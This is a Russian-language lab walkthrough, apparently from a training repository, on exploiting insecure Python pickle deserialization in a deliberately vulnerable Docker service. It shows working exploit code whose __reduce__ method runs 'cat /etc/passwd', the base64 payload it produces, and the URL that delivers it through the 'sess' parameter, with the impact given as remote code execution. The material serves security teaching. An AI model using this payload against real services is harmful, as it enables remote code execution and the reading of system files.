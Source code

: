 
# Ссылки

Docker container: https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser

Материалы:
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20deserialization/Python.md
- https://docs.python.org/2/library/pickle.html#pickling-and-unpickling-extension-types
- https://habr.com/ru/post/186608/
- http://qaru.site/questions/1650451/how-reduce-function-exactly-works-in-case-of-pickle-module
- https://github.com/f47h3r/exploit_code/blob/master/graphite_pickle_exploit.py

# Уязвимый сервис

## Развертывание

Собираем и запускаем [докер контейнер](https://github.com/GrrrDog/ZeroNights-WebVillage-2017/tree/master/pydeser). 
В данном примере уязвимый сервис будет находиться на http://picle.lab

## Обзор

Сервис имеет следующий функционал:
1. set your name, например http://pickle.lab/?name=pwn.pas
2. "Посмотреть на себя", например http://127.0.0.1:9090/pydeser?sess=Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAwCihjbWFpbgpVc2VyCnAxCmNfX2J1aWx0aW5fXwpvYmplY3QKcDIKTnRwMwpScDQKKGRwNQpTJ2lkJwpwNgpJNzEzNjMKc1MnbmFtZScKcDcKVnB3bi5wYXNzCnA4CnNiLg==

# Эксплуатация

## Шаг 1

Используем следующий код для генерации серелиазованного объекта

```python
import cPickle
import base64

class Evil(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (('cat', '/etc/passwd',),))

e = Evil()
evil_token = base64.b64encode(cPickle.dumps(e))
print "Your Evil Token : %s" % (evil_token, )
```

Результат:

```
Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=
```

## Шаг 2

Переходим на http://pickle.lab/pydeser?sess= и для параметра sess подставляем полученный объект на шаге 1

`http://pickle.lab/pydeser?sess=Y3N1YnByb2Nlc3MKY2hlY2tfb3V0cHV0CnAxCigoUydjYXQnCnAyClMnL2V0Yy9wYXNzd2QnCnAzCnRwNAp0cDUKUnA2Ci4=`

Результат

![](img/pickle_1.png)

# Ущерб

Получение RCE
